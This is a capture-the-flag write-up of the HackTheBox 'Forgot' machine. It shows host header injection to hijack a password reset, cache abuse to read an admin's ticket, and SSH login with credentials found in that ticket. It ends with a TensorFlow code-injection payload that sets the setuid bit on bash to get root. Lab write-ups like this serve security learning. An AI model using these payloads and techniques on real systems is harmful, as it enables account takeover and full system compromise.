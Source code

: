 Sup, this is write up for the box Forgot from Hackthebox. Let's start with nmap:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-06 09:39 EST
Nmap scan report for 10.10.11.188 (10.10.11.188)
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Werkzeug/2.1.2 Python/3.8.10
```

There are two ports open ssh and http. We see that the site is running python. Looking at the error when trying to visit site that surely doesn't
exist we see familiar flask not found page. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG1.png?raw=true)

On the main page is login form. That is not vulnerable to sql injection.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG2.png?raw=true)

Trying different usernames doesn't return different error when trying to log in meaning we can't do username enumeration based on error message.
Looking at the source code there is username: robert-dev-87120 (this one is different for each htb player so people don't collide when playing the box).

We can request password recovery link. With that we can try to get the server to send the reset link to our server with host header injection (for example https://medium.com/@tameemkhalid786/host-header-injection-on-password-reset-functionality-an-easy-p2-5c6263c2e3d4).

Now we start netcat or python server on our machine:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
``` 

After that we catch the request in burp:

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG3.png?raw=true)

And we get reset link on our python server:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [06/Mar/2023 10:07:28] code 404, message File not found
10.10.11.188 - - [06/Mar/2023 10:07:28] "GET /reset?token=HpnpS2AIvUsIX8oF9KouawOmYQfhr9CjGXBjQMCAXEJxZZWFvKHXGL653pam6IKBnJdIpAJC94Hnzaq0cordSQ%3D%3D HTTP/1.1" 404 -
```

Now let's visit the link and change roberts password to whatever we want. Now we are in on the site. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG4.png?raw=true)

In navbar there are four things the last one being disabled. We can either enable it or just visit admin_tickets. But we get access denied. 

If we curl the site with '-I' to see headers we get this:

```
# curl -I http://10.10.11.188/
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Fri, 10 Mar 2023 14:48:40 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 5186
X-Varnish: 196623 196621
Age: 9
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: keep-alive
``` 

There is a Varnish reverse proxy responsible for caching. It doesn't cache the default page as there is Age:0 in headers but `/static` gets cached. 
We can send link through `/escalate` that admins click with /static and should save his cookie so we can view the ssh creds in the ticket.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG5.png?raw=true)

We will wait some time so it doesn't cache our request without the admin cookie. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Forgot/images/IMG6.png?raw=true)

And now we have creds for ssh: `diego:dCb#1!x0%gjq` and we can login:

```
# ssh diego@10.10.11.188                                                                                                                                                                                                            
diego@10.10.11.188's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-132-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 10 Mar 2023 04:09:52 PM UTC

  System load:           0.03
  Usage of /:            65.9% of 8.72GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.188
  IPv6 address for eth0: dead:beef::250:56ff:feb9:768


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Nov 18 10:51:30 2022 from 10.10.14.40
diego@forgot:~$ 
```

Having password we can start looking for ways to escalate privileges with `sudo -l`:

```
diego@forgot:~$ sudo -l
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
```

Don't know much about python so I will just look at different functions to use for privesc.
This one stood out:

```
preprocess_input_exprs_arg_string
```

There is code injection CVE for this https://github.com/advisories/GHSA-75c9-jrh4-79mc
The script checks for XSS and when it detects it it gets passwed to the `preprocess_input_exprs_arg_string` function.

I'll use this payload to make bash setuid which is the easiest way to get root. For some reason it had problem with `+s`

```
hello=exec("""\nimport os\nos.system('chmod 4777 /bin/bash')""");#<script>alert('xss')</script>
```

After that I can just simply run the script with sudo and make bash setuid.

```
iego@forgot:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
diego@forgot:~$ sudo /opt/security/ml_security.py
2023-03-11 23:17:02.168590: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2023-03-11 23:17:02.168625: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
diego@forgot:~$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1183448 Apr 18  2022 /bin/bash
diego@forgot:~$ /bin/bash -p
bash-5.0# id
uid=1000(diego) gid=1000(diego) euid=0(root) groups=1000(diego)
```

It still has the problem with s but we got root shell anyway. This means the end of this box. Thanks for reading u can hit me up on twitter https://twitter.com/Vojtech1337 and until next time.

